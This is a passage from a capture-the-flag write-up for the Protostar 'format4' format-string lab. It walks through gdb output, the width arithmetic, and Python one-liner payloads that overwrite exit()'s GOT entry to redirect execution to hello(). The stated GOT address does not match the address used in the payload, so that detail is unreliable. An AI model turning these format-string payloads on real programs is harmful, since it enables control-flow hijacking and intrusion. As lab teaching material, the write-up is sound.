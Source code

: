 ```shell
(gdb) x 0x80496d8
0x80496d8 <_GLOBAL_OFFSET_TABLE_+24>:   0x08048382
```

Right now, it points back into **the PLT section**, which is normal because of how dynamic linking works. Our goal is just overwritten `0x80496d8` **(GOT)** with the address of **hello()**, which is `0x80484b4`.

Now, we can again use **Direct Parameter Access (DPA)**, and short-write to overwrite the address in **exit()** to address of **hello()**.

Follow the tip in **Two-Write Method** in **Format 3**, we will choose the smallest value first. In this case is `0x0804`. We already have 8 bytes written from 2 addresses, here is the number of bytes needed for our **width length**: 

$$
0x0804 - 8 = 2044
$$

Next, we need to write `0x84b4 = 33972`:

$$
0x84b4 - 2052 = 31920
$$

Here is the exploit:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\x24\x97\x04\x08\x26\x97\x04\x08" + "%2044x%5$hn%31920x%4$hn"' | ./format4

code execution redirected! you win
```

### Optimization

Since the address of `exit()` function stays in ***GOT***, where it is unchanged throughout the program. This means the address of `exit()` always starts with `0x0804`, and writing it again is redundant.

So, we can jump directly to the last part of our write, which is `0x84b4 = 33972`:

$$
33972 - 4 = 33968
$$

Let's rebuild our exploit:

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\x24\x97\x04\x08" + "%33968x%4$hn"' | ./format4

code execution redirected! you win
```
